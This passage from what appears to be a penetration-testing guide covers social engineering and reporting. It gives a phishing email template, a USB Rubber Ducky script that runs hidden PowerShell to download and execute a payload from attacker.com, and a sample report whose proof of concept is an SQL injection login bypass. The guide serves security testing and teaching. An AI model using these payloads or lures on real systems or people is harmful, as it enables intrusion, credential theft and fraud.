 ## Social Engineering

### Phishing Campaign

```html
<!-- Phishing email template -->
<!DOCTYPE html>
<html>
<head>
    <title>Security Update Required</title>
</head>
<body>
    <h2>Urgent: Security Update Required</h2>
    <p>Your account has been compromised. Please update your password immediately.</p>
    <a href="http://fake-bank.com/update">Click here to update</a>
</body>
</html>
```

### Physical Security Testing

```bash
# USB Rubber Ducky payload
DELAY 1000
GUI r
DELAY 100
STRING cmd
ENTER
DELAY 100
STRING powershell -w hidden -c "IEX (New-Object Net.WebClient).DownloadString('http://attacker.com/payload.ps1')"
ENTER
```

## Reporting & Documentation

### Vulnerability Report Template

```markdown
# Vulnerability Report

## Executive Summary
Brief description of findings and risk level.

## Technical Details
### Vulnerability: SQL Injection
- **Severity**: High
- **CVSS Score**: 8.5
- **Location**: /login.php
- **Description**: Application is vulnerable to SQL injection attacks
- **Impact**: Unauthorized database access, data theft
- **Proof of Concept**: 
  ```
  POST /login.php
  username: admin' OR '1'='1--
  password: anything
  ```
- **Remediation**: Use parameterized queries
- **References**: OWASP SQL Injection Prevention
```
